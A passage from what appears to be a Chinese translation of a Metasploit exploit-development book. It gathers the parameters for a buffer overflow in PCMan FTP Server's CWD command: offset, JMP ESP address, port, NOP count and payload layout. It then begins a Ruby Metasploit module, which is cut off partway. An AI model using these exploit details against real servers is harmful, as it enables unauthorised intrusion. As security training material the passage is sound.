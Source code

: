 ![](img/00163.jpeg)

我们可以看到计算器应用程序弹出，表明该漏洞工作正常。

# 收集精华

让我们通过下表了解需要从前面的漏洞中获取哪些重要值，以便在 Metasploit 中生成等效模块：

| **序列号** | **变量** | **值** |
| 1. | 偏移值 | `2008` |
| 2. | 使用`JMP ESP`搜索从可执行模块中找到目标返回/跳转地址/值 | `0x71AB9372` |
| 3. | 目标端口 | `21` |
| 4. | 外壳代码的前导 NOP 字节数，用于删除不规则项 | `10` |
| 5. | 思维方式 | `CWD`命令后跟 2008 字节的垃圾数据，后跟任意返回地址、NOPs 和外壳代码 |

我们拥有构建 Metasploit 模块所需的所有信息。在下一节中，我们将看到 Metasploit 如何帮助 FTP 进程，以及在 Metasploit 中创建漏洞利用模块是多么容易。

# 生成 Metasploit 模块

开始构建 Metasploit 模块的最佳方法是复制现有的类似模块并对其进行更改。然而，`Mona.py`脚本也可以动态生成 Metasploit 特定的模块。在本书的最后几节中，我们将介绍如何使用`Mona.py`脚本快速利用漏洞。

现在让我们看一下 Metasploit 中利用漏洞的等效代码，如下所示：

```
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
Rank = NormalRanking
include Msf::Exploit::Remote::Ftp
def initialize(info = {})
super(update_info(info,
'Name' => 'PCMAN FTP Server Post-Exploitation CWD Command',
'Description' => %q{
This module exploits a buffer overflow vulnerability in PCMAN FTP
},
  'Author' =>
    [
      'Nipun Jaswal'

    ],
  'DefaultOptions' =>
    {
      'EXITFUNC' => 'process',
      'VERBOSE' => true
```